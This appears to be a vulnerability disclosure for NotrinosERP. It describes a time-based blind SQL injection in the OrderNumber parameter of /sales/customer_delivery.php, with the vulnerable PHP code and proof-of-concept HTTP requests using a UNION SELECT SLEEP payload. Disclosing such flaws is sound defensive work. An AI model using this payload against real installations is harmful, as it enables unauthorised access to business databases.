 # Description
The endpoint **/sales/customer_delivery.php** is vulnerable to Blind SQL Injection (Time-based) via the GET parameter **OrderNumber**. This endpoint can be triggered through the following menu: Sales - Sales Order Entry - Place Order - Make Delivery Against This Order. From the source code perspective, the endpoint will execute the **adjust_shipping_charge** function in the **\sales\customer_delivery.php** file line number 107. As shown in the code snippet below, the OrderNumber parameter is taken directly from the query string and passed into the function without any sanitization or escaping.


```
adjust_shipping_charge($ord, $_GET['OrderNumber']);
```



The adjust_shipping_charge function itself can be found in the **\sales\includes\db\sales_delivery_db.inc** file line number 203. In that function the OrderNumber parameter or $trans_no is concatenated directly into the SQL query.

```
function adjust_shipping_charge(&$delivery, $trans_no) {
	$sql = "SELECT sum(ov_freight) as freight FROM ".TB_PREF."debtor_trans WHERE order_ = $trans_no AND type = " . ST_CUSTDELIVERY . " AND debtor_no = " . $delivery->customer_id;
	$result = db_query($sql, 'Can not find delivery notes');
```

This allows the attacker to inject malicious OrderNumber payloads to execute the malicious SQL query.

# Proof of Concept

Triggering time delays with MySQL sleep function.

Normal request will take around 200 milis (0.2 seconds) response time

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

The following malicious request with OrderNumber parameter set to `10+UNION+SELECT+SLEEP(2)%23--+-` will take around 2000 milis (2 seconds) response time.

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10+UNION+SELECT+SLEEP(2)%23--+- HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

Note: The orderNumber (e.g., 10) need to be valid/existing order number.



# Root Cause
User input on the WorkOrder parameter ($trans_no) is not sanitized and used directly in the query through string concatenation.
https://github.com/notrinos/NotrinosERP/blob/master/sales/includes/db/sales_delivery_db.inc#L204
